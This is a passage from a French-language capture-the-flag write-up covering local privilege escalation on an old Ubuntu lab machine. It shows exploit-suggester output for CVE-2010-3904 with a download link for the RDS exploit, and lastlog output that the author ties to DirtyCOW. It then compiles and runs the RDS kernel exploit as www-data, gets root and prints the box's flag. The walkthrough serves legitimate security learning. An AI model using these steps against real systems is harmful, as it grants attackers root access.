 ```

[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},[ ubuntu=10.10|9.10 ],fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},ubuntu=10.04{kernel:2.6.32-(21|24)-generic}
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c
```

On voit aussi via `lastlog` un utilisateur nommé `firefart` qui n'existe plus sur le système :

```
╔══════════╣ Last logons
firefart pts/0        192.168.209.131  Sat Apr 14 07:32 - down   (00:00)    
frank    tty1                          Sat Apr 14 07:31 - down   (00:01)    
frank    tty1                          Sat Apr 14 07:31 - 07:31  (00:00)    
reboot   system boot  2.6.35-19-generi Sat Apr 14 07:30 - 07:33  (00:02)    
frank    pts/0        192.168.209.1    Fri Apr 13 16:14 - down   (15:15)    
frank    tty1                          Fri Apr 13 16:07 - down   (15:22)    
frank    tty1                          Fri Apr 13 16:07 - 16:07  (00:00)    
reboot   system boot  2.6.35-19-generi Fri Apr 13 16:07 - 07:30  (15:23)
```

Les habitués auront reconnu cet utilisateur comme étant créé par un exploit pour la faille `DirtyCOW`. C'est vraisemblablement l'escalade de privilèges attendue.

Par esprit de contradiction je me suis tourné vers l'exploit *RDS* :

```console
www-data@ubuntu:/tmp$ gcc -o rds linux-rds-exploit.c 
www-data@ubuntu:/tmp$ ./rds 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved rds_proto_ops to 0xffffffffa01b18c0
 [+] Resolved rds_ioctl to 0xffffffffa01aa000
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
8f420533b79076cc99e9f95a1a4e5568
```
